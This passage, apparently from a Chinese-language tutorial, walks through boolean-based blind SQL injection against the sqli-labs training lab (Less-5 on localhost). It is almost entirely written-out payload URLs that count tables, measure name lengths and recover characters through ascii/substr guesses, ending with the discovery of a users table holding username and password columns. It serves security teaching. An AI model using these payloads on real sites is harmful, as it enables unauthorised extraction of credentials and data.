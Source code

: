 


3：判断当前数据库中的表



```
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from admin)   //猜测当前数据库中是否存在admin表      
1：判断当前数据库中表的个数      
// 判断当前数据库中的表的个数是否大于5，用二分法依次判断，最后得知当前数据库表的个数为4      
http://127.0.0.1/sqli/Less-5/?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())>5 #       
2：判断每个表的长度      
//判断第一个表的长度，用二分法依次判断，最后可知当前数据库中第一个表的长度为6      
http://127.0.0.1/sqli/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6       1
//判断第二个表的长度，用二分法依次判断，最后可知当前数据库中第二个表的长度为6      1
http://127.0.0.1/sqli/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=6       1
3：判断每个表的每个字符的ascii值      1
//判断第一个表的第一个字符的ascii值      1
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100 #       1
//判断第一个表的第二个字符的ascii值      1
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>100 #       2
.........      2
由此可判断出存在表 emails、referers、uagents、users ，猜测users表中最有可能存在账户和密码，所以以下判断字段和数据在 users 表中判断
```




4. 判断表中的字段



```
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select username from admin)   //如果已经证实了存在admin表，那么猜测是否存在username字段      
1：判断表中字段的个数      
//判断users表中字段个数是否大于5，这里的users表是通过上面的语句爆出来的      
http://127.0.0.1/sqli/Less-5/?id=1' and (select count(column_name) from information_schema.columns where table_name='users')>5 #       
2：判断字段的长度      
//判断第一个字段的长度      
http://127.0.0.1/sqli/Less-5/?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))>5       1
//判断第二个字段的长度      1
http://127.0.0.1/sqli/Less-5/?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 1,1))>5       1
3：判断字段的ascii值      1
//判断第一个字段的第一个字符的长度      1
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>100       1
//判断第一个字段的第二个字符的长度      1
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),2,1))>100       2
...........      2
由此可判断出users表中存在 id、username、password 字段
```
